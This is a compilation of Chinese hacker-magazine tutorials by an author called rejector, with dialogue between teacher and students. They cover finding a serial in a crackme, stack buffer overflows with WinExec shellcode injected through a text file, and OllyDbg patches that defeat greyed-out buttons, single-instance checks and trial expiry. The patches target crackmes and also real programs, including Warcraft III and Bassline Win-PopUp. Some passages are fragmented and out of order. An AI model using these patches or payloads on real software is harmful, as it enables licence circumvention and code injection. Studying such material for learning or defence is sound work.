这里分别获取了上边的两个指针，然后再调用一个函数，这个函数返回了一个字符串。F8过这个函数后我们注意看寄存器窗口（如图8），这时的eax是一个指针，它指向0040A920，数据为8f77cec7719f4e3，我们暂且称它为字符串1；这时的esi也是一个指针，它指向0040AD20，这是第二次调用GetDlgItemTextA函数时的缓冲区指针，指向我们输入的注册码，我们暂且称它为字符串2。

继续看下面的代码：

```asm
0040107E  83C4 04    add esp, 4 ; 平衡堆栈
00401081  8A10       mov dl, byte ptr [eax] ; 获取字符串1的第1字节
00401083  8A1E       mov bl, byte ptr [esi] ; 获取字符串2的第1字节
00401085  8ACA       mov cl, dl
00401087  3AD3       cmp dl, bl
00401089  75 1E      jnz short 004010A9 ; 不相等则跳走
0040108B  84C9       test cl, cl
0040108D  74 16      je short ...
```

仔细理一理就会发现，这是用来比较两个字符串是不是相等的函数了，继续看下面的代码：

```asm
004010A5  33C0       xor eax, eax ; 两个字符串长度不同时eax清零
004010A7  EB 05      jmp short 004010AE
004010A9  1BC0       sbb eax, eax
004010AB  83D8 FF    sbb eax, -1
004010AE  85C0       test eax, eax ; 比较
004010B0  75 07      jnz short 004010B9 ; 关键跳转
004010B2  68 4C804000 push 0040804C ; 破解成功！
004010B7  EB 05      jmp short 004010BE
004010B9  68 40804000 push 00408040 ; 破解失败！
```

吉利：老师，我看懂了，程序把两个字符串进行比较，如果它们相等就提示“破解成功！”，如果它们不相等就提示“破解失败！”。  
白糖：哦，老师，那我们把004010B0处的jnz改成jz是不是就被破解成功了呀？  
rejector：对，可是我们不这样做，我们今天玩的是追码。我们回头想一想，既然程序把刚才那个字符串拿来和我们输入的Serial比较，那说明什么？  
吉利：那是不是说那个字符串就是真正的Serial呀？  
rejector：对，这就是程序真正的Serial。

既然这样，我们试着输入刚才的那个字符串看看，结果（如图9）已经提示我们“破解成功！”了！！


（文章中所涉及到的Crack已收录在光盘中）

## 菜鸟也要学溢出（一）

### 溢出演示

Rejector

很多人在学过简单的脚本入侵以后，就烦恼自己的技术为何久久不见长进。这里我就要提到缓冲区溢出了。

其实对于初学者来说，缓冲区溢出是很抽象的东西，需要对计算机操作系统、汇编语言、二进制机器码等很多方面有一定的了解，而这些起步条件通常会令很多技术爱好者望而却步。本系列重点在于培养新手对于缓冲区溢出的学习兴趣，将从新手的角度重点阐释基础，循序渐进，令菜鸟们在缓冲区溢出的海洋里深入浅出。

本节是我们系列的第一课。我们不急着说怎么挖掘程序漏洞，首先来举个例子简单演示一下缓冲区溢出的发生。

首先我们来看一段C语言代码：

```c
#include "stdio.h"

int main(int argc, char* argv[])
{
    char str[8];
    scanf("%s", str);
    return 0;
}
```

运行后，我们输入一个长度为7的字符串“monster”并按回车，程序正常退出了（如图1）。我们想一想，既然我们定义的字符数组str大小为8个字符，可以储存一个长度为7的字符串，那我们输入长度为7的字符串“monster”的时候肯定是没有错的；但如果我们要输入一个长度大于7的字符串呢？程序会怎么样呢？

我们再运行一次程序，这次输入一个长度为14的字符串“monstermonster”后按回车。可以看到（如图2），问题出来了，系统提示我们“程序遇到问题需要关闭”。


现在我们来理解一下这段代码的功能：首先定义str为一个字符数组，大小为8个字符，可以储存一个长度为7的字符串；然后调用scanf()函数从键盘输入一个字符串保存到str；最后结束程序。

我们使用VC6.0把这段代码编译成Release版本，然后我们来看看这个问题。在调试状态下重新模拟一下刚才的出错情况，把刚才的程序载入OD，然后把代码窗口拖到最上面的00401000处（如图3）。

00007265不可读，尝试更改EIP或忽略程序异常”。这里我们需要注意一下OD的寄存器窗口（如图6），这时的EIP寄存器值变成了00007265，而00007265这个地址是不存在的。现在我们想一想，为什么会这样呢？


图3


图4


图5


图6

就可以看到我们的代码如下：

```asm
00401000  /$  83EC 0C        sub  esp, 0C
; 定义数组，开辟空间
00401003  |.  8D4424 00      lea  eax, dword ptr [esp]
; 获取当前ESP的值
00401007  |.  50             push eax
; 压入堆栈
00401008  |.  68 30704000    push 00407030
; ASCII "%s"
0040100D  |.  E8 0E000000    call 00407020
; scanf函数
00401012  |.  33C0           xor  eax, eax
; EAX清零
00401014  |.  83C4 14        add  esp, 14
; 抬高栈顶
00401017  \.  C3             retn
; 函数返回
```

在这里我们还需要了解几点基础知识：

- 栈区（stack）：由编译器自动分配释放，存放函数的参数值、局部变量的值等，其操作方式类似于数据结构中的栈，遵守先进先出原则。
- 指令指针寄存器IP（Instruction Pointer）是一个16位专用寄存器，它指向当前需要取出的指令字节；当BIU（总线接口部件）从内存中取出一个指令字节后，IP就自动加1，指向下一个指令字节。EIP是32位机的指令指针寄存器。
- 堆栈指针寄存器SP（Stack Pointer）：可指向目前的堆栈位置，ESP是32位机的堆栈指针寄存器。
- call和retn的调用细节：其实说白了，call和retn都是跳转语句；但它们又不同于jmp。call指令会把它的下一条指令地址压入堆栈中作为返回地址，然后跳转到它调用的函数开头处，而单纯的jmp不会这样做；同时retn指令也会自动地从栈区中弹出一个双字，这个双字就是刚才call指令压入的函数返回地址，这时retn指令把弹出的数据放入EIP寄存器中。

总结一下，就是call的本质相当于push+jmp，retn的本质相当于pop+jmp。

我们选中第一句，然后按F2在这一句设置一个断点，再按F9让程序运行起来，程序就会中断在第一句处。接下来按F8让程序单步执行，到0040100D的时候输入“monstermonster”后按回车，等函数返回后继续按F8单步。当执行到00401017的retn指令时，再按一次F8，然后就会发现OD成了（如图4）所示的样子：代码窗口一片空白。这时再按一次F8，OD就会弹出一个对话框（如图5），提示“不知道如何单步，因为内存地址00007265不可读，尝试更改EIP或忽略程序异常”。

现在我们再来想一下刚才的EIP寄存器为什么会变成00007265，这个00007265是从哪里来的呢？我们知道e对应的ASCII值为0x65，r对应的ASCII值为0x72。我们现在可以猜想这是我们刚才输入的字符串“monstermonster”的最后两个字符。

我们在OD中按Ctrl+F2重新加载程序，接着按F9让程序运行，等程序中断在00401000处后继续按F8来单步，但这次输入字符串“abcdefghijklmnopqrstuvwxyz”。接着再按F8单步，等遇到retn指令时，就可以看到这时EIP寄存器变成了706F6E6D（如图7、8）。我们知道m、n、o、p所对应的ASCII分别为0x6D、0x6E、0x6F、0x70，这就组成了EIP寄存器当前的值。


可以看到EIP寄存器现在指向00401020，这个地址就是刚才OD所跳转到的地址。ESP寄存器现在指向0012FF6C，那我们现在就注意系统栈里指向0012FF6C的数据：


可以看到系统栈里指向0012FF6C的数据为00401012，这是我们刚才call指令下一句代码的地址。继续F8单步，等程序运行到0040102E的时候，我们再看看系统栈里的数据。

现在我们看看这个过程的具体细节：按Ctrl+F2重新加载程序，接着按F9让程序运行，等程序中断在00401000处后继续按F8来单步。当EIP寄存器的值指向0040100D的时候要注意了，现在不能按F8来单步了，我们要按F7来步入这个函数，接着OD就会跳到这里：


可以看到0012FF68处的数据为0012FF78，这是刚才我们执行00401025处的`push dword ptr [esp+8]`时压入的缓冲区地址，也就是str的地址；而0012FF6C处的00401012是函数返回地址。在命令行窗口输入命令“d 0012FF78”并密切关注数据窗口（如图9、10），现在输入字符串“abcdefghijklmnopqrstuvwxyz”，然后再看看数据窗口（如图11）：从0012FF78到0012FF92就是我们刚才输入的字符串了。继续F8步过，过了00401036处的retn后程序返回到了00401012处，按两次F8让程序执行到00401017处。想一想，如果我们再F8一次，程序就会从系统栈里弹出一个双字到EIP寄存器，然后再跳到对应的地址。来看看现在寄存器里的数据：

我们再看看现在寄存器里的数据：


## 主题乐园

可以看到当前 ESP 寄存器的值为 0012FF84，再看看数据窗口，0012FF84 就在刚才说的范围 0012FF78 到 0012FF92 之中，而这里正是我们输入的数据，0012FF84 所指向的数据正好是 706F6E6D。现在再 F8 一步，就看到 OD 会这样提示我们：“不知道如何单步，因为内存地址 706F6E6D 不可读，尝试更改 EIP 或忽略程序异常”。这样我们就可以用输入的数据来修改 EIP 的值，让它指向我们所指定的地址，转到指定的地方去执行代码，这样就等于控制了程序的流程。

> （文章中所涉及到的程序已收录在光盘中）

## 破解绝技（四）灰色按钮突破

过完年了，rejector 老师回到学校，回头想想，这都一个月没有看到白糖和小吉利了。这次是菜鸟学堂的第四课了，从这节课开始我们就来讲讲对于常见的软件限制方式的突破。

首先看看本课的第一个 CrackMe。我们运行一下，如图 1，我们可以看到这里的“OK”按钮是灰色的，不可用。这里我们先来了解一个 API 函数：EnableWindow。这个函数用来允许或者禁止指定的窗口或控件接受鼠标和键盘的输入，当输入被禁止时，窗口不响应鼠标和按键的输入；输入允许时，窗口接受所有的输入。函数原型如下：

```c
BOOL EnableWindow(
    HWND hWnd,
    BOOL bEnable
);
```

我们来看看它的参数：hWnd：被允许或者禁止的窗口句柄。bEnable：定义窗口是被允许，还是被禁止。若该参数为 TRUE，则窗口被允许；若该参数为 FALSE，则窗口被禁止。

现在我们把刚才的 CrackMe 载入 OD 来看看。载入后我们按 Ctrl+G，在弹出的对话框中输入刚才的函数名：EnableWindow。如图 2，我们点“确定”后 OD 就会来到 EnableWindow 函数的入口处。我们选中这一句，在这里按 F2 来下一个断点，下好断点以后这一句就会变红，如图 3。现在我们按 F9 让程序在 OD 中运行起来，接着我们就会看到 OD 会中断在刚才我们下断点的这一句。我们看看现在的堆栈窗口，如图 4，看看这里的数据：

```text
0012FBA8  00401067  /CALL 到 EnableWindow
来自 crackMe:00401061
0012FBAC  001F04F2  hWnd = 001F04F2 ("OK" class="Button")
0012FBB0  00000000  \Enable = FALSE
```

我们来理解一下这段代码。第一句压入 bEnable 参数，接下来的三句通过调用 GetDlgItem 函数来获取被操作按钮的句柄，第五句压入按钮句柄，最后一句调用 EnableWindow 函数。只要把 EnableWindow 函数参数 bEnable 的值改为 TRUE，就可以让按钮变为可用状态，因此把 `push 0` 改为 `push 1` 即可。

可以看到这里调用了 EnableWindow 函数。第一句是返回地址，第二句是第一个参数 hWnd（值为 001F04F2，对应注释中 `OK`, class=`Button`），第三句是参数 bEnable，其值为 `00000000`（False）。当该参数为 FALSE 时窗口被禁止。若不希望“OK”按钮被禁止，需要把该函数第三个参数改为 TRUE，即 `00000001`。

现在按 Ctrl+F9 让函数返回，返回后到达图 5 所示位置，代码如下：

```asm
00401055  6A 00                push 0        ; bEnable = FALSE
00401057  6A 01                push 1        ; ControlID = 1
00401059  51                   push ecx      ; hWnd
0040105A  FF15 FC804000        call dword ptr [<&USER32.GetDlgItem>]
00401060  50                   push eax      ; hWnd
00401061  FF15 00814000        call dword ptr [<&USER32.EnableWindow>]
```

双击该行代码，在弹出对话框中改为 `push 1` 并确定（如图 6）。随后右键选择“复制到可执行文件”→“所有修改”，在弹出窗口中再右键“保存文件”。运行保存后的文件可见按钮已变为可用状态。

接着看灰色菜单的突破。图 8 中“确定”菜单是灰色不可用，这里需要了解另一个 API 函数 `EnableMenuItem`，先看它的原型：

```c
BOOL EnableMenuItem(
    HMENU hMenu,
    UINT  uIDEnableItem,
    UINT  uEnable
);
```

我们来看看它的参数：`hMenu`，菜单句柄；`uIDEnableItem`，欲允许或禁止的一个菜单条目的标识符；`uEnable`，菜单状态，0 为可用，1 为灰色，2 为禁用。

我们把 CrackMe 载入 OD，在 OD 左下角的命令框中输入“bp EnableMenuItem”也可以为函数 EnableMenuItem 下一个断点，如图 9。我们按 F9 让程序跑起来，接着程序就会中断在函数 EnableMenuItem 的地方，我们看堆栈里的数据：

```text
0012FEB8  004011A6  /CALL 到 EnableMenuItem
来自 crackme2.004011A0
0012FEBC  050C04BB  hMenu = 050C04BB
0012FEC0  00008003  lItemID = 8003 (32771.)
0012FEC4  00000002  \Flags = MF_BYCOMMAND|MF_DISABLED|MF_STRING
```

```asm
/Flags = MF_BYCOMMAND|MF_DISABLED|MF_STRING
00401191  mov esi,eax
00401193  push 8003
00401198  push esi
00401199  call dword ptr [<&USER32.GetMenu>]
0040119F  push eax
004011A0  call dword ptr [<&USER32.EnableMenuItem>]
```

这里第一行是返回地址，第二行是菜单句柄，第三行是菜单条目的标识符，第四行是 uEnable，也是我们需要关心的东西。我们可以看到 uEnable 为 2。我们从上面可以知道，当 uEnable 参数的值是 2 的时候菜单为禁用状态。现在我们再 Ctrl+F9 让程序执行到函数返回，返回后的代码如下：

```asm
0040118F  push 2
```

这里的第一句代码就是压入 uEnable 参数，我们可以看到它压入的是 2，而只有 uEnable 参数为 0 时菜单才可用，所以我们只要把第一句代码修改为“push 0”就可以使菜单可用。修改代码和保存文件的方法在上面刚说过，保存后运行一下，如图 10。

好了，这节课就讲到这里，大家下节见。

## 菜鸟也要学溢出（二）

### 向进程植入代码

大家好，我是 rejector。上节课向大家演示了一下什么叫做缓冲区溢出，这节课我们就简单地介绍一下如何给程序植入代码。

首先我们来看一段 C 语言代码：

```c
#include "stdio.h"
#include <windows.h>

int main()
{
    char buffer[0x30];
    FILE *fp;
    fp = fopen("rejector.txt", "r");
    fscanf(fp, "%s", buffer);
    fclose(fp);
    return 0;
}
```

这段代码首先定义一个长度为 0x30 的字符数组，然后打开本目录下的“rejector.txt”文件，从文件中读取一个字符串到 buffer 数组中，最后关闭文件。看似很正常的一段代码，我们来想想上节课所讲的内容：当程序从“rejector.txt”文件里读取到的字符串长度超过 0x30 个的时候呢，会怎么办？那就会产生缓冲区溢出了，我们在上节课已经看到了它的危害。

现在我们来看看这个漏洞。我们在它的同目录下新建一个文本文档，命名为“rejector.txt”，然后在文件里写入一个长度大于 30 的字符串，比如“abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789”，接着把刚才的代码用 VC6.0 编译成 release 版本，运行看看，如图 1，程序出错了。我们点“调试”（在此之前要保证 OD 是你的即时调试器），然后 OD 就会自动附加到出错的程序上。如图 2，我们看 OD 的寄存器窗口，可以看到现在 EIP 寄存器的值是“33323130”，这正好是“0123”的 ASCII 码。

我们上节课就说过，EIP 寄存器的值指向程序下一句将要执行的代码，只要能修改 EIP 的值，就可以让程序执行任意代码。现在，“0123”这 4 个字符的位置正好就可以覆盖到 EIP，修改 EIP 的值。我们只要修改这 4 个字节，就可以改变整个程序的流程了。而程序与外界的接口就只有“rejector.txt”文件了，所以我们如果要向进程植入代码的话，就要把代码放到“rejector.txt”文件里，让程序把代码当成代码自己读取到内存中。

但读取后的数据在栈里，我们就得跑到栈里去执行代码，就要把“0123”所对应的地方修改为栈里代码的地址。只待当程序溢出的时候，这个地址就会覆盖到 EIP 寄存器，接着程序就可以执行栈里的代码了。我们看看现在的栈：

如图 3，从上面的数据可以看到，从 0012FF50 开始，到 0012FF8C 结束的都是从“rejector.txt”文件读取出来的数据，而“33323130”位于 0012FF84，这里的数据可以淹没 EIP 寄存器。我们将这里的数据改为“0012FF50”，程序溢出后就会跳转到 0012FF50 去执行代码，而 0012FF50 就是从“rejector.txt”文件读取出来的数据。我们在文件中存入恶意代码的话，程序就会读到内存，并且执行了。我们来试试。

从刚才的分析中知道，“0123”这 4 个字符的位置正好就覆盖在 EIP 的地方，而我们需要让程序跳转到 0012FF50，所以我们需要把这 4 个字节改为“0012FF50”。在修改时候要注意，在内存里存储地址的时候是从高位到低位存储的，所以修改的时候我们要改成“50FF1200”。我们在这里植入以下简单的代码做演示：

```asm
xor ebx, ebx
push ebx
push 6578652E
push 7265726F
push 6C707865
mov eax, esp
push 1
push eax
call 7C86114D
```

```text
78 70 6C 88 C4 6A 01 50 E8 17 01 46 7C 90 90 90 ...
56 ...
```

我们把这些机器码按照 16 进制的方式写入“rejector.txt”文件，并且把“0123”对应的位置修改为“0012FF50”，如图 4。保存后再运行一下程序，如图 5，可以看到资源管理器被打开了，这说明我们的溢出代码被执行了！

简单地来理解一下这段代码：清零 ebx 寄存器，再压入 ebx，接着 3 个 push 是“explorer.exe”的 ASCII 值，而上面的“push ebx”压入一个 0 来作为字符串“explorer.exe”的结束符……最后调用 7C86114D，这是 WinExec() 函数的入口点地址，这段代码可以让程序打开一个资源管理器。

我们要把这段汇编代码写成机器码，转换后如下：

```text
33 DB 53 68 2E 65 78 65 68 6F 72 65 72 68 65 ...
```

大家要注意，溢出对操作环境的要求很高，编译环境、模式什么的都会导致分析和本文不一致。我在本文中使用的地址在我的机器上可以使用，到别的机器上说不定就会出现错误。

> （文中涉及的“相关代码”本期光盘已收录）

## 软件经验（8）多开艰难突破

学校要期中考试，搞得 rejector 整天都很忙，每天泡图书馆学习。回头想想这都沉睡了快一个多月了，快出来上一会儿网透透气吧，顺便找个好地方，五一带男朋友一起出去旅游，说不定还会碰到一个帅哥……

“rejector 老师，这都多久没见到你啦！想死你了，快来给我们上课吧。”

rejector 想想：也对哦，这都很久没有上课了呀。“孩子们，老师忙呀，整天要学习，还要泡帅哥，哪有时间呀。”

“老师，那要不就现在上课吧。”

“呃，那好吧，作为一名有责任心的美女，我不能抛弃你们！那我们今天就来讲一讲对于软件多开限制的突破。”

“那老师，什么叫多开限制呀？”

有些软件，在使用的时候是不允许多开的。当你运行了一个这样的软件以后，如果你想同时打开这样的两个软件，就会被禁止。比如有些网络游戏，你登录了一个账号之后，它就不允许你登录第二个账号。我们这节课讲的内容就是来通过破解来解除这样的限制，想运行几个就运行几个。

这节课我们来讲两种比较常见的方法。先来看看第一种，这种方法比较好理解：在软件运行之后，一般都有一个软件的窗口；而在运行之前，就会检查当前系统中是否存在这个窗口。如果存在，则表示软件已经运行，这时运行的软件就会被禁止。我们先来看一个 API 函数：

```c
HWND FindWindow(
  LPCTSTR lpClassName,
  LPCTSTR lpWindowName
);
```

这是 FindWindow 的函数原型。它可以返回一个与指定字符串相匹配的窗口类名，或窗口名最顶层窗口的窗口句柄。我们再来看看它的参数。

lpClassName 指向一个以 NULL 结尾的、用来指定类名的字符串，或一个可以确定类名字符串的原子。如果该参数为 NULL 时，将会寻找任何与 lpWindowName 参数匹配的窗口。

lpWindowName 指向一个以 NULL 结尾的、用来指定窗口名（即窗口标题）的字符串。如果此参数为 NULL，则匹配所有窗口名。

看看它的返回值：

- 如果函数执行成功，则返回值是拥有指定窗口类名或窗口名的窗口的句柄。
- 如果函数执行失败，则返回值为 NULL。

看完这个 API 以后我们就可以开始找我们今天的第一个 crackme 了。运行，如图 1；再运行一次，就会有如图 2 的提示，然后就自动退出。好的，现在我们把程序加载到 OD 中，对 FindWindow 函数下断，如图 3，然后按 F9 让程序运行起来。接着程序就会被中断在 FindWindow 函数的入口点。中断后看堆栈：

```asm
0012FED0  00401010
0040100A  调用 FindWindowW
0012FED4  00000000 ; Class = 0
0012FED8  00402144 ; Title = "...By Rejector"
```

通过前几节课的学习，我们可以看到这里调用了 FindWindow 函数，参数 lpClassName 为 0，也就是 NULL。当前这个参数为 NULL 的时候，函数将会寻找任何与 lpWindowName 参数匹配的窗口，而这里的 lpWindowName 参数是指向 00402144 的字符串，这里是“《黑客X档案》多开限制实例 By Rejector”。我们按 Ctrl+F9，让程序在函数返回后中断，然后就会看到如下代码：

```asm
00401000  /$ 83EC1C         sub esp,1C
00401003  |. 68 44214000    push 00402144
00401008  |. 6A 00          push 0
0040100A  |. FF15 FC204000  call [FindWindowW]
00401010  |. 85C0           test eax,eax
00401012  |. 74 1C          je short ...
00401014  |. 6A 00          push 0
00401016  |. 68 7C214000    push 0040217C
```

## 主题乐园

```asm
0040101B    68 84214000    push 00402184
[Text = "程序已运行"]
00401020    6A 00          push 0
[hOwner = NULL]
00401022    FF15 F8204000  call dword ptr [<&USER32.MessageBoxW>]
00401028    33C0           xor eax,eax
0040102A    83C4 1C        add esp,1C
0040102D    C2 1000        retn 10
```

这段代码很好理解，首先调用 FindWindow 函数来检查是否存在一个窗口名为“《黑客X档案》多开限制实例 By Rejector”的窗口，00401010 处通过比较结果并在 00401012 处跳转；不存在则跳走，存在则继续执行并弹出“程序已运行”提示，最后在 0040102D 的 `retn` 返回。处理方法是修改 00401012 处跳转（如把 `je` 改为 `jmp`），即可绕过提示并实现多开（如图4）。

下面我们再来看看第二种方法，我们还是先看一个 API。

```c
HANDLE CreateMutex(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL bInitialOwner,
  LPCTSTR lpName
);
```

CreateMutex 函数可用于创建一个有名或无名的互斥量对象，用来找出当前系统是否已经存在指定进程的实例；如果没有则创建一个互斥体。函数执行成功返回互斥体句柄，出错则返回 NULL。接下来查看参数信息。

`lpMutexAttributes`：指向安全属性的指针，传递 `NULL` 表示使用默认不可继承描述符。

`bInitialOwner`：初始化互斥对象的所有者。

`lpName`：指向互斥对象名的指针。

还有一些 API（如 `CreateEvent`、`OpenMutex`）效果与 `CreateMutex` 基本相同。

运行今天的第二个 CrackMe，OD 加载后输入命令 `bp CreateMutexW` 下断点，F9 运行会中断在 `CreateMutex` 入口处，先看堆栈：

```asm
0012FEC8  00401013  /CALL 到 CreateMutexW 来自 0040100D
0012FECC  00000000   lpSecurity = NULL
0012FED0  00000000   bInitialOwner = FALSE
0012FED4  00402154   MutexName = "mutex"
```

看参数解释后这里很容易理解；按 `Ctrl+F9` 运行到返回，可看到如下代码：

```asm
00401000  /$ 83EC 1C         sub esp,1C
00401003  |. 56              push esi
00401004  |. 68 54214000     push 00402154   ; MutexName="mutex"
00401009  |. 6A 00           push 0          ; bInitialOwner=FALSE
0040100B  |. 6A 00           push 0          ; lpSecurity=NULL
0040100D  |. FF15 48204000   call [<&KERNEL32.CreateMutex>]
00401013  |. 8BF0            mov esi,eax
00401015  |. FF15 20204000   call [<&KERNEL32.GetLastError>]
0040101B  |. 3D B7000000     cmp eax,0B7
00401020  |. 75 24           jnz short ...
00401022  |. 56            push esi
/hObject
00401023  |. FF15 08204000 call dword ptr [<&KERNEL32.CloseHandle>] ; CloseHandle
00401029  |. 6A 00         push 0
/Style = MB_OK|MB_APPLMODAL
0040102B  |. 68 60214000   push 00402160
/Title = "提示"
00401030  |. 68 68214000   push 00402168
/Text = "实例2已运行"
00401035  |. 6A 00         push 0
/hOwner = NULL
00401037  |. FF15 00214000 call dword ptr [<&USER32.MessageBoxW>] ; MessageBoxW
0040103D  |. 33C0          xor eax,eax
0040103F  |. 5E            pop esi
00401040  |. 83C4 1C       add esp,1C
00401043  \. C2 1000       retn 10
```

这段代码也是比较好理解的，首先调用 CreateMutex 来创建一个互斥对象，再调用 GetLastError 来获取最后一次出错的错误代码，0040101B 处拿 0xB7（0xB7 是 CreateMutex 的错误代码）和最后一次出错的错误代码比较，看看刚才执行的 CreateMutex 有没有出错，00401020 处进行选择性跳转，如果最后一次出错的错误代码不是 0xB7，则跳走；如果最后一次出错的错误代码是 0xB7 则继续向下执行代码，调用 MessageBox 函数弹出对话框提示“实例2已运行”，然后到 00401043 处的 retn 指令退出。

这样的话我们只要修改 00401020 处的选择性跳转，把 `jnz` 改为 `jmp` 就可以突破了，双击这一句，在弹出的对话框中输入 `jmp short 00401046`，然后点汇编，如图7，保存修改后的文件后运行，如图8，破解成功。

在前几节课有读者反映说讲 CrackMe 太单调，想让 rejector 来讲一些破解实例，现在我们拿出一个真正的软件来破解试试，以魔兽争霸为例来试试。其实 rejector 是不会打魔兽的，作为一个超级淑女，怎么可以整天打打杀杀，但是为了讲课，没办法呀，大家理解一下！！

打开魔兽后，如果再打开一个，就会提示“魔兽争霸III已经运行”，如图9。那我们载入 OD 来进行分析。在这里我要说明一下，破解一个软件，要懂得利用你所学过的所有知识，不要有局限性。现在我们看到它弹出了一个对话框，那我们就对 MessageBox 函数下断，然后按 F9 运行，中断后按 Alt+F9 让 OD 返回用户代码，然后我们就可以看到这里。如图10，我们向上看几句，在 0040105F 处下个断点，按 Ctrl+F2 让 OD 重新加载，再按 F9 运行，就可以中断在这里，中断后的代码如下：

```asm
0040105F  |> 68 48804000   push 00408048
ASCII "Warcraft III Game Application"
00401064  |. 6A 00         push 0
00401066  |. 6A 00         push 0
00401068  |. 6A 00         push 0
0040106A  |. FFD3          call ebx
0040106C  |. 894424 10     mov dword ptr [esp+10],eax
00401070  |. FFD5          call ebp
00401072  |. 3D B7000000   cmp eax,0B7
00401077  |. 75 5F         jnz short ...
004010D8
```

这里我们可以看到，程序调用了两个函数，分别是 ebx 和 ebp。我们看看寄存器窗口，ebx 和 ebp 分别指向两个 API：CreateEvent 和 GetLastError。那么这里就是使用互斥对象来实现单开的。我们看到 00401077 处是一个选择性跳转，我们只要把这里改为 `jmp short 004010D8` 就可以。修改后保存文件，运行一下，结果如图12，还有问题，我们顺着刚才的代码继续向后跟踪，然后发现了这里的代码：

```asm
004012B9  50              |push eax ; lpProcessInfo
004012BA  F3:A4           |rep movs byte ptr es:[edi], byte ptr ds:[esi]
004012BC  8D8C24 4C030000 |lea ecx, dword ptr [esp+34C]
004012C3  8D9424 48020000 |lea edx, dword ptr [esp+248]
004012CA  51              |push ecx ; lpStartupInfo
004012CB  6A 00           |push 0 ; lpCurrentDir = NULL
004012CD  6A 00           |push 0 ; lpEnvironment = NULL
004012CF  6A 00           |push 0 ; dwCreationFlags = 0
004012D1  6A 01           |push 1 ; bInheritHandles = TRUE
004012D3  6A 00           |push 0 ; lpThreadSecurity = NULL
004012D5  6A 00           |push 0 ; lpProcessSecurity = NULL
004012D7  52              |push edx ; lpCommandLine
004012D8  6A 00           |push 0 ; lpModuleFileName = NULL
004012DA  FF15 60704000   |call dword ptr [<&KERNEL32.CreateProcessA>] ; CreateProcessA
```

看看堆栈里的数据：

```asm
0012F83C  004012E0  /CALL 到 CreateProcessA 来自 Frozen_T.004012DA
0012F840  00000000  |ModuleFileName = NULL
0012F844  0012FAAC  |CommandLine = "\"e:\\War3\\war3.exe\""
0012F848  00000000  |lpProcessSecurity = NULL
0012F84C  00000000  |lpThreadSecurity = NULL
0012F850  00000001  |bInheritHandles = TRUE
0012F854  00000000  |dwCreationFlags = 0
0012F858  00000000  |lpEnvironment = NULL
0012F85C  00000000  |lpCurrentDir = NULL
0012F860  0012FBB0  |lpStartupInfo = 0012FBB0
0012F864  0012F88C  \pProcessInfo = ...
```

这里在创建一个进程，我们发现当程序执行这个函数的时候就会弹出刚才的提示，那我们就直接来分析 war3.exe 好了，用 OD 加载同目录下的 war3.exe。

一路 F8 过来，然后就看到了这里的代码：

```asm
00401216  | > 56            push esi
00401217  |.  FFD0          call eax
Game.GameMain
```

```asm
6F00602C   74 0F         je short 6F00603D
6F00602E   E8 1D380000   call 6F009850
6F006033   33C9          xor ecx, ecx
6F006035   E8 96FEFFFF   call 6F005ED0
6F00603A   33C0          xor eax, eax
6F00603C   C3            ret
```

这里调用了模块的 GameMain 函数，我们再跟进去看看，依然一路 F8 过去，遇到 6F005FF9 处的 Call，又弹出这个提示了，Ctrl+F9 再来一次，到了这一句以后，F7 跟进去，然后就又看到这样的代码：

```asm
6F006020   B9 94757E6F    mov ecx
6F7E7594   ASCII "Warcraft III Game Application"
6F006025   E8 A4AE0000    call
<Jmp.&War3.#479.H>
6F00602A   85C0           test eax,eax
```

这里，终于看到曙光了，把这里的 `je` 再改为 `jmp`，保存后运行试试，如图13，万无一失了！

## 破解笔记（六）时间限制突破

这眼睛一眯一闭都六月了，哎！杭州这破天气，热死个人呀，学校还不给装空调，还让不让人活了呀！rejector 老师冒着会中暑的危险来给同学们上课，走进教研部看到小吉利已经趴在桌子上睡着了，白猫在一边傻傻地舔冰棍！

上节课说的是对多开限制的突破，这节课我们再来看看对于时间限制的突破！

还是先来看几个 API 吧。

- **GetFileTime**：取文件建立、最后访问、修改时间
- **GetLocalTime**：取当前本地时间
- **GetSystemTime**：取当前系统时间
- **GetTickCount**：取 Windows 启动至现在的毫秒数

我们直接来看看我们的第一个 CrackMe，运行一下，可以看到 CrackMe 提示说“程序将在运行10秒后自动关闭”，如图1。然后过了10秒，程序就真的关闭了。现在我们用 OD 加载这个 CrackMe，然后在 OD 的命令行插件里输入命令“BP GetTickCount”后回车来下一个断点，如图2，然后直接按 F9 让程序运行起来，然后 OD 就中断在如图3所示的地方了。我们按 Ctrl+F9 让 OD 执行到返回，然后我们就可以看到如下代码：

```asm
00401049    FF15 00204000   call dword ptr ds:[<&KERNEL32.GetTickCount>]
; 取操作系统启动到现在所经过的毫秒数
0040104F    8BC8            mov ecx,eax
```

这段代码很简单，首先调用 `GetTickCount` 函数来获取操作系统启动到现在所经过的毫秒数，再减去内存 `403374` 处的数据，这里储存的是软件开始时调用 `GetTickCount` 函数获取的操作系统启动所经过的毫秒数，做完减法以后的结果就是从软件运行到当前所经历的毫秒数，然后除以 1000，就是把毫秒数转化为秒数，然后和 10 比较，如果不是 10 就跳走，如果是 10 就调用 `ExitProcess` 函数来退出进程。

既然这样的话，那我们只要修改 `0040106A` 处的选择跳转就可以了。我们不希望程序调用 `ExitProcess` 函数，那我们就要让 `0040106A` 处的跳转必须实现，所以我们只要把 `jnz` 改为 `jmp` 就可以了。我们双击这一句代码，就会弹出反汇编窗口；我们把这里的代码改为 `jmp short 00401074`；然后点“汇编”按钮，再点“取消”；然后在汇编窗口中点鼠标右键，选择“复制到可执行文件”——“所有修改”，如图5，然后会有提示“要把选中的内容复制到可执行文件中么？”，这里选择“全部复制”，如图6，接着就会弹出一个窗口，在弹出的窗口中再点鼠标右键，选择“保存文件”，如图7，然后我们运行一下保存后的文件看看，如图8，可以看到运行的时候已经超过了12秒，但程序还是没有结束，破解成功了！

下面我们再来看一个实例，这个软件叫 **Bassline Win-PopUp**，我们看到如图9的提示，说 “You have 50 days to evaluate this software! Would see the registration information in WWW?”，意思就是说这个软件我们只能用50天，问我们是不是要注册！按“确定”后界面如图10，我们把系统时间往后调若干天，然后重启软件，可以看到如图11的提示，说“This program has expired! Would you like to see the registration information in WWW?”意思是说软件已经过期了。

我们用OD加载软件，对前面所说的几个API都下个断点，然后按F9让程序在OD中运行起来，然后程序就会被中断在GetLocalTime函数处，如图12。

```asm
00402692.  E8 E8060500   call 00452D7F
```

在这一句按F2下断，然后Ctrl+F2重新加载程序，F9运行。当中断到刚才这句的时候我们按F7跟进去，我们可以看到这个call里的代码如下：

